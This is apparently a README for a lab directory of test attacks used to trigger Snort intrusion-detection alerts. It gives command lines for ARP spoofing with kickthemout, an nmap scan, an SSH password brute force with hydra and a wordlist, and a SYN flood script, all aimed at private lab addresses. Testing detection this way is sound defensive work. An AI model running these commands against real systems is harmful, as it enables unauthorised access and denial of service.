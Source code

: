 # attacks
Directory containing the code used for the test attacks used for triggering the snort alerts. 

The structure of the project is the following one.

 - **kicktheamount**: Tool to perform and ARP spoofing on the victim.

```
 sudo python3 kickthemout.py --target 192.168.1.10

 sudo python3 kickthemout.py --target <ip>
``` 

- **port scanning**: Simple nmap scan on the ip. More options are possible to be added but at this point it's enough.

```
nmap 172.16.46.2

nmap <ip>
```

- **ssh brute force**: The tool used is hydra. The test command used is the following one.
 
```
./hydra -s 22 -v -V -l fran -P ../SecLists/Passwords/darkweb2017-top1000.txt -t 8 192.168.1.10 ssh

./hydra -s 22 -v -V -w 4 -l fran -P ../SecLists/Passwords/darkweb2017-top1000.txt -t 8 192.168.1.10 ssh

./hydra -s <port> -v -V -w <waittime> -l <username> -P <path to password file> -t <number of threads> <ip> <protocol>
```

 - **syn_flood**: Tool to be used for the Syn Flood Attack.
 
```
sudo python syn_flood.py -d 192.168.1.10 -p 22 -t 1

sudo python syn_flood.py -d <ip> -p <port> -t <number of threads>
```
  
 
 
